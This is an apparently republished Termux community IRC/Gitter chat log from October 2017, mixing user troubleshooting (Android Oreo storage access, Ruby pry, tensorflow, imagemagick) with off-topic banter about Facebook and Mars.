2017-10-06 12:49:54	g088	https://wiki.termux.com/wiki/Botting

2017-10-06 12:50:19	g088	https://wiki.termux.com/wiki/Rooting

2017-10-06 12:51:17	g088	root access deb pkg wow

2017-10-06 12:52:05	gitter	(Auxilus) How old are you sdrausty?

2017-10-06 12:52:36	g088	👍🔺

2017-10-06 12:53:07	g088	https://m.facebook.com/sdrausty

2017-10-06 12:53:33	gitter	(Auxilus) 13?

2017-10-06 12:53:37	g088	lol

2017-10-06 12:53:42	g088	3

2017-10-06 12:54:06	g088	<13xe

2017-10-06 12:54:32	gitter	(Auxilus) Wth how old?

2017-10-06 12:54:55	g088	did u chx fcbk

2017-10-06 12:55:03	gitter	(Auxilus) Friend request = sent

2017-10-06 12:56:14	gitter	(Auxilus) First thing thats bugging me

2017-10-06 12:56:28	g088	frumpylava: g* & h* r due2

2017-10-06 12:56:43	gitter	(Auxilus) Why you have so many indian people in your frnd lst?

2017-10-06 12:57:12	g088	facebook suggests algorithem

2017-10-06 12:57:25	gitter	(Auxilus) Did you get my req?

2017-10-06 12:57:27	g088	cannot friend

2017-10-06 12:57:42	g088	popup^popup

2017-10-06 12:57:47	gitter	(Auxilus) Why?

2017-10-06 12:58:10	g088	i do not like2 unfriend

2017-10-06 12:58:24	g088	input

2017-10-06 12:58:52	gitter	(Auxilus) Yo wish man

2017-10-06 12:58:57	g088	termux ❤

2017-10-06 12:59:12	gitter	(Auxilus) I see you like astronomy?

2017-10-06 12:59:16	g088	messenger iz off

2017-10-06 12:59:40	g088	we r astronomy

2017-10-06 13:28:46	g088	@Auxilus who r u @fbk?

2017-10-06 13:29:19	gitter	(Auxilus) Raghav Phadke

2017-10-06 13:29:29	gitter	(Auxilus) you must've got my request

2017-10-06 13:30:58	g088	tnx frumpylava

2017-10-06 13:32:04	g088	accepted @Auxilus tnx

2017-10-06 13:32:39	gitter	(Auxilus) Btw im that lil white kid in my dp

2017-10-06 13:33:56	gitter	(Auxilus) Dude wth

2017-10-06 13:34:03	gitter	(Auxilus) Stop spamming my posts

2017-10-06 13:34:40	gitter	(Auxilus) BTW that photo in which we have colors on us

2017-10-06 13:34:58	gitter	(Auxilus) Your `lol `comment on that is a little rudd

2017-10-06 13:35:09	gitter	(Auxilus) *rude

2017-10-06 13:37:42	gitter	(Auxilus) Lololololololololololololololololololololol

2017-10-06 13:37:46	gitter	(Auxilus) Chill bro

2017-10-06 13:41:22	g088	https://www.google.com/search?biw=360&bih=270&ei=bb_XWZyJD4nLmwHm0LSoBw&q=nasa+mars+terraform+site%3Anasa.gov&oq=nasa+mars+terraform+site%3Anasa.gov

2017-10-06 13:41:52	g088	our sister planet bro

2017-10-06 13:42:09	g088	any hamsters?

2017-10-06 13:42:16	g088	any 1?

2017-10-06 13:45:36	g088	water

2017-10-06 13:45:40	g088	rivers

2017-10-06 13:45:46	g088	waterfalls

2017-10-06 13:46:25	g088	1/6G

2017-10-06 13:47:02	g088	golf any1m

2017-10-06 13:48:11	g088	How to Give Mars an Atmosphere, Maybe

2017-10-06 13:48:21	g088	https://astrobiology.nasa.gov/news/how-to-give-mars-an-atmosphere-maybe/

2017-10-06 13:48:52	g088	whd bt da Moon?

2017-10-06 13:48:58	g088	our sister

2017-10-06 13:49:04	g088	our life

2017-10-06 13:50:00	g088	we want NASA plp hlpn Termux!

2017-10-06 13:50:18	g088	debian core = NASA

2017-10-06 13:56:51	g088	SAR

2017-10-06 13:57:49	g088	USERS g* n h* r 4diagonstis only

2017-10-06 13:58:04	gitter	(mklein994) Just tweaked the Terminal Settings wiki page: https://wiki.termux.com/wiki/Terminal_Settings

2017-10-06 13:58:10	g088	k

2017-10-06 14:00:12	g088	now its got 2astroid belts

2017-10-06 14:00:42	gitter	(mklein994) Um what

2017-10-06 14:00:59	g088	4n more

2017-10-06 14:01:26	g088	The Sun rMother

2017-10-06 14:02:11	gitter	(mklein994) g088: Speak English.

2017-10-06 14:03:11	g088	da game 

2017-10-06 14:03:53	g088	play golf on da Moon?

2017-10-06 14:04:01	g088	play golf on da Mars?

2017-10-06 14:05:40	g088	https://m.youtube.com/results?q=golf%20moon%20Armstrong&sm=12

2017-10-06 14:06:43	g088	& no 1 announced it

2017-10-06 14:06:54	g088	nada

2017-10-06 14:06:57	g088	null

2017-10-06 14:08:02	gitter	(sdrausty) $ while true; do play-audio Simple\ Man\ -\ Lynyrd\ Skynyrd\ -\ Lyrics\ HD-sMmTkKz60W8.mp4 ;done

2017-10-06 14:08:37	gitter	(sdrausty) https://wiki.termux.com/wiki/DVR

2017-10-06 14:09:21	gitter	(sdrausty) With code in your pocket.

2017-10-06 14:13:14	gitter	(sdrausty) In your the palm on your hands...

2017-10-06 14:13:55	gitter	(sdrausty) SAT

2017-10-06 14:14:09	gitter	(sdrausty) SAT *SAR

2017-10-06 14:14:32	gitter	(sdrausty) How2 turn SAR off?

2017-10-06 14:15:29	gitter	(sdrausty) SAR^SAR on da autobus

2017-10-06 14:15:40	gitter	(sdrausty) 🚌

2017-10-06 14:15:58	gitter	(sdrausty) DaPlane!

2017-10-06 14:16:22	gitter	(sdrausty) ✈️🌬️✊🤕

2017-10-06 14:20:22	gitter	(sdrausty) root@localhost:~# git clone https://github.com/sdrausty/buildAPKs

2017-10-06 14:20:22	gitter	(sdrausty) Cloning into 'buildAPKs'...

2017-10-06 14:20:23	gitter	(sdrausty) remote: Counting objects: 431, done.

2017-10-06 14:20:23	gitter	(sdrausty) [full message: https://gitter.im/termux/termux?at=59d7c96501110b72318579fb]

2017-10-06 14:20:49	gitter	(sdrausty) ?

2017-10-06 17:53:10	gitter	(mklein994) Hey @sdrausty do you have a bot posting your wiki changes to gitter? Could you turn it off?

2017-10-06 21:05:38	Evi1R0B	Hello. termux-setup-storage does nothing on my Pixel phone running Oreo. Anyone on Oreo able to get storage working?

2017-10-06 21:13:14	gitter	(mklein994) Evi1R0B: Ooh that's interesting. My guess is that there's a few more ~google annoyances~ bugs to be seen in Android 8.

2017-10-06 21:14:10	gitter	(mklein994) Have you allowed storage permission in app settings yet?

2017-10-06 21:18:27	Evi1R0B	glitter: Yes I have but that doesn't fix the problem. :(

2017-10-06 21:24:57	live_the_dream	no fix for that as yet because android 8 doesn't allow invoking /system/bin/am directly

2017-10-06 21:25:22	live_the_dream	its a known bug

2017-10-06 21:25:42	live_the_dream	it is being worked on

2017-10-06 22:24:07	rods-tab3	a ''bug'' or a ''feature'' ?  ie andro keeps locking things down tighter and tighter until ...

2017-10-06 22:30:17	live_the_dream	its a feature for android but a bug for us

2017-10-06 22:35:33	rods-tab3	maybe becoming worse than a bug ....

2017-10-06 22:51:47	zj1995_	i really don't like the path android is headed toward

2017-10-06 22:56:43	gitter	(vishalbiswas) we should add --no-undefined to default linker flags

2017-10-06 22:59:05	Evi1R0B	live_the_dream: Thanks for the info.

2017-10-06 23:14:16	rods-tab3	zj1995 -  ditto,  will be harder for termux to do its thing -- without being rooted

2017-10-06 23:59:45	zj1995_	well i only use termux for ssh and running python scripts

2017-10-06 23:59:57	zj1995_	so as long as that still works all will be fine

2017-10-07 00:01:47	zj1995_	n35xdxb0: i'm using termux on a blackberry keyone and it's absolutely wonderful

2017-10-07 06:54:56	n35xdxb0	zj1995_: keyone is going to be my next phone! still not sure why the phones aren't more popular but i love them

2017-10-07 07:40:50	gitter	(suryapoo) Guys .. have we fixed the MySQL libraryfor ruby ?

2017-10-07 09:27:15	gitter	(sdrausty) @mklein994 no no botposting

2017-10-07 09:30:41	gitter	(sdrausty) @mklein994 the wiki got built somehow and posting about it is one of the methods. Can you please contribute to our wiki?

2017-10-07 09:38:00	gitter	(mklein994) @sdrausty did you see my edits to Terminal Settings?

2017-10-07 09:52:48	gitter	(sdrausty) Just reviewed the page, looks good. Thank you @mklein994 🈴

2017-10-07 09:53:27	gitter	(suryapoo) Guys???

2017-10-07 10:12:30	g088	Error: Transaction failed

2017-10-07 10:12:30	g088	[termux@fedora home]$ povray

2017-10-07 10:12:30	g088	bash: povray: command not found

2017-10-07 10:16:15	g088	can we port SDL.aarch64 1.2.15-25.fc26 or sim 2Termux?

2017-10-07 10:17:30	g088	https://duckduckgo.com/?q=SDL+Github+simple+direct+layer

2017-10-07 10:21:22	g088	$ while true; do play-audio Lynyrd\ Skynyrd\ -\ Simple\ Man\ -\ Live\ At\ The\ Florida\ Theatre\ _\ 2015-Mqfwbf3X8SA.mkv ;done

2017-10-07 10:30:32	gitter	(sdrausty) https://duckduckgo.com/?q=SDL+simple+direct+layer+site%3Agithub.com

2017-10-07 10:32:17	gitter	(sdrausty) https://github.com/termux/termux-packages/issues/202 might resolve with SDL

2017-10-07 10:45:56	g088	https://m.facebook.com/story.php?story_fbid=1970906429789881&id=1511958572351338

2017-10-07 12:40:08	gitter	(suryapoo) pry

2017-10-07 12:40:08	gitter	(suryapoo) [1] pry(main)> a = []

2017-10-07 12:40:08	gitter	(suryapoo) => []

2017-10-07 12:40:08	gitter	(suryapoo) [full message: https://gitter.im/termux/termux?at=59d90366177fb9fe7e4ddf12]

2017-10-07 12:40:22	gitter	(suryapoo) Why am I not getting methods in ruby ?

2017-10-07 12:40:25	gitter	(suryapoo) Via pry

2017-10-07 12:40:31	gitter	(suryapoo) I'm getting them via irb

2017-10-07 13:01:06	gitter	(Grimler91) @suryapoo try installning "less", it looks like pry is calling the busybox version of less with an unsupported option

2017-10-07 13:04:05	h903	siren testing hi

2017-10-07 13:22:22	gitter	(suryapoo) @Grimler91  thanks man..solved

2017-10-07 17:37:13	Evi1R0B1	.

2017-10-07 20:28:09	h903	I: Configuring systemd...

2017-10-07 20:28:12	h903	I: Base system installed successfully.

2017-10-07 20:33:38	h903	root@localhost:~# apt update

2017-10-07 21:18:18	h903	l??????????  ? ?    ?         ?            ? .l2s.diversions0001

2017-10-08 03:55:26	gitter	(suryapoo) $ cd mysite

2017-10-08 03:55:27	gitter	(suryapoo) $ ls

2017-10-08 03:55:27	gitter	(suryapoo) Gemfile       config        public

2017-10-08 03:55:27	gitter	(suryapoo) [full message: https://gitter.im/termux/termux?at=59d9d9ec210ac26920bdceca]

2017-10-08 03:55:43	gitter	(suryapoo) guys im not able to generate rails controller please help

2017-10-08 09:06:07	gitter	(cocodevienne) How do I submit a package to the main Termux repo? @vishalbiswas @fornwall @frumpylava

2017-10-08 11:18:41	gitter	(Auxilus) I cant install tensorflow with `pip install tensorflow ` pls help me out

2017-10-08 11:30:02	gitter	(mklein994) @cocodevienne create a pull request, and try to make it pass on travis.

2017-10-08 11:33:25	Guest52164	$ convert cir.svg -density 1200 -resize 512x512 cir.png

2017-10-08 11:33:25	Guest52164	Segmentation fault

2017-10-08 11:34:37	gitter	(cocodevienne) Okay thanks, I will check back here, once my package is ready. It is going to be a game in `C++`! :)

2017-10-08 11:34:43	gitter	(cocodevienne) @mklein994

2017-10-08 11:38:29	gitter	(Grimler91) Guest52164: possibly related to https://github.com/termux/termux-packages/issues/1314

2017-10-08 12:00:03	Guest52164	@Grimler yes just updated it too

2017-10-08 12:01:31	Guest52164	imagemagick/stable,now 7.0.7.7 aarch64 [installed]

2017-10-08 12:30:45	gitter	(Auxilus) Yo, how do install tensorflow

2017-10-08 12:56:04	gitter	(Auxilus) Im getting `ImportError: dlopen failed: "/data/data/com.termux/files/usr/lib/python3.6/site-packages/tensorflow/python/_pywrap_tensorflow.so" has bad ELF magic`

2017-10-08 13:08:43	frumpylava	Texlive-bin seems to be broken

2017-10-08 13:08:47	frumpylava	/data/data/com.termux/files/usr/var/lib/dpkg/tmp.ci/preinst: 5: /data/data/com.termux/files/usr/var/lib/dpkg/tmp.ci/preinst: Syntax error: "(" unexpected

2017-10-08 13:14:00	Guest52164	http://wiki.archlinux.org/

2017-10-08 13:14:13	Guest52164	works in Termux 

2017-10-08 13:24:42	Guest52164	archlinuxarm.org/os/

2017-10-08 13:25:41	gitter	(Auxilus) Anyone here installed pillow?

2017-10-08 13:26:21	Guest52164	i find the chromebook os especially interesting

2017-10-08 13:47:18	Guest52164	Are there any :) Chrome Book users here?

### When you press and momentarily hold the `volumeDown+power` buttons simultaneously on a smartphone, it takes a screenshot much like this one which shows the screen and the [the source code for this page](https://raw.githubusercontent.com/sdrausty/sdrausty.github.io/master/logs/ircFreenodeTermuxWeechatlog.md) in [vim](http://www.vim.org/git.php) running in [Termux](https://termux.com) on an [Android](https://source.android.com/) [plat](https://www.google.com/search?q=platform+technology)[form.](https://duckduckgo.com/?q=platform+technology)



#### This animation was created with [imagemagick](../pages/im.html) in [Termux](../pages/asac.html) on an Android smartphone.


If you're confused by this page try [this link](http://tldp.org/) or you might want to try [this one](https://www.debian.org/doc/). Post your what you have found at [the wiki for this website](https://github.com/sdrausty/sdrausty.github.io/wiki) and [donate](../pages/donate.md) to let [sdrausty.guthub.io](https://sdrausty.github.io/) grow.

[Up One Level](./../)
